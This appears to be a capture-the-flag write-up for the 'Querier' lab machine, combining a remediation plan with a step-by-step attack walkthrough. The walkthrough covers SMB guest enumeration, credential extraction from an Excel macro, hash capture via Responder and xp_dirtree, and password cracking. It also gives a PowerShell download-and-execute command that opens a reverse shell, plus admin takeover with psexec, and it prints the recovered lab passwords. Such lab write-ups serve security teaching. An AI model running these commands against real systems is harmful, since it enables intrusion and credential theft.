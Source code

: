 # Security Remediation Plan

## Identified Security Vulnerabilities

The primary security vulnerabilities identified stem from two key issues:

- **Unauthorized Guest Access:** Improper configuration of access controls allowing guest users to log on to the SMB share "REPORTS."
- **Insufficient File Cleanup:** Failure of local administrators and users to properly clean up sensitive files, resulting in the retention of login credentials within Excel macros and configuration files for unattended installations.

These vulnerabilities pose a significant risk, as they could potentially expose critical authentication data to unauthorized individuals, increasing the likelihood of unauthorized access and exploitation of the network.

## Recommended Remediation Steps

To effectively remediate these issues, the following steps should be taken:

1. **System Scrubbing:** Conduct a thorough review and cleanup of the system to identify and remove any leftover configuration files associated with unattended installations. This ensures no sensitive data remains within the system.

2. **Disable Guest Access to SMB Shares:** Immediately disable guest access to the SMB share "REPORTS" to prevent unauthorized users from gaining access to sensitive information.

3. **Establish Strong Policies:** Implement and enforce strict policies for both users and administrators, explicitly prohibiting the storage of passwords in clear text locally. Educate staff on secure password management practices and implement technical controls to minimize the risk of sensitive data being exposed.

By addressing these points, the system will be better secured and the risk of unauthorized access or data breaches significantly reduced.

## Guides

<details>
  <summary>Steps to Recreate Compromise</summary>
  
# Recreating the Compromise

## Step 1: Reconnaissance

Using the following commands, I was able to get information on the open ports and then moved to see if there were any public-facing SMB shares.

nmap -sV -sS -A 10.129.156.234

Please see below for a screenshot of the output of the commands.
![nmap output](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/nmap.png)

Next, we moved to see if there were any shares available.

smbclient -N -L \\\\\\\\10.129.156.234

Please see below for a screenshot of the output of the commands.
![smb shares](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/smb_enumeration.png)

## Step 2: Initial Access

Through the above reconnaissance we were able to identify the "Reports" share
We can test if this share allows guest logon through the following
smbclient -N \\\\\\\\10.129.156.234\\\\Reports
This will succeed and by using the "ls" command we can see that 

"Currency Volume Report.xlsm" is saved here
![smb vuln file](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/smb_available_file.png)

use the following command to save this file locally.

get "Currency Volume Report.xlsm"

The "m" in ".xlsm" means there are macros enabled.
We will next unzip the file with the "unzip" command.
Once it is unzipped use the following command to gain access to our first set of compromised credentials.

head xl/vbaProject.bin | strings
![first creds gathered](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/Initial_creds_comp.png)

## Step 3: Privilege Escalation  

Before you move forward with this section we will need a few tools

- johntheripper
- impacket-mssqlclient
- impacket-psexec
- netcat
- python3 http.server
- responder

the first thing we will be doing is getting 2 terminal windows open. Please pay attention because we will be jumping between the 2 throughout this section.
We will track which we are in with one terminal being labeled "Term 1" and the other being "Term 2".

Term 1: Log into the system with the following command:
impacket-mssqlclient reporting:@10.129.156.234 -windows-auth

Term 2:
Use the following command to setup our listener:

responder -I [YOUR INTERFACE CONNECTED TO THE NETWORK WITH THE VULNERABLE BOX]

Information can be found using "ip addr show"

Term 1:
Next we will send the hashes from the SQL Service with the following command:

xp_dirtree '\\\\[YOUR LOCAL IP]\share\file'

Now you should have been able to gather the hashes on term 2. Please see below for the full output.

![privilege Esc](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/responder_cred_grab.png)

Next we will take that hash and put it into johntheripper and have the following credentials recovered:

john password_hash -w=/usr/share/wordlist/rockyou.txt

mssql-svc:corporate568

now login with those credentials using:

impacket-mssqlclient mssql-svc:@10.129.156.234 -windows-auth

next on our local machine we will set up a listener with netcat, and a webserver using python3.

Python3 server will be hosting 2 files
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
- https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1

For the first one you will add the following line to the end:

Invoke-PowerShellTcp -Reverse -IPAddress YOUR_LOCAL_IP -Port PORT_CHOSEN

For the second link you will add the following to the end of the script:

Invoke-AllChecks

Next create 2 terminals locally and do the following:
Term 1: python3 -m http.server 80
Term 2: nc -lvnp PORT_CHOSEN

now back on the terminal connected to our target input the following:

xp_cmdshell powershell iex(new-object net.webclient).downloadstring(\"http://YOUR_LOCAL_IP/Invoke-PowerShellTcp.ps1\")

You now have a shell on your netcat listener.

Next type in the following to your shell:

iex(new-object net.webclient).downloadstring("http://10.10.16.2/PowerUp.ps1")

this will give the following output:

![privilege Esc](https://github.com/Miner221272/Writeups/blob/main/Medium/Querier/screenshots/admin_cred_grab.png)

With these credentials you can now gain full acccess to the system using "impacket-psexec Administrator:MyUnclesAreMarioAndLuigi!!1!@"

</details>

<details>
  <summary>SMB Guest Access Lockdown</summary>
  
  1. **Step 1:** Disable guest access to the SMB share by adjusting the appropriate access control settings on the server.
  2. **Step 2:** Review and confirm that only authorized users and groups have access to the share.
  3. **Step 3:** Ensure the system is configured to prevent guest access in the future by disabling guest accounts or limiting permissions.
  4. **Step 4:** Document the updated access control configuration and test to confirm restrictions are enforced.

</details>

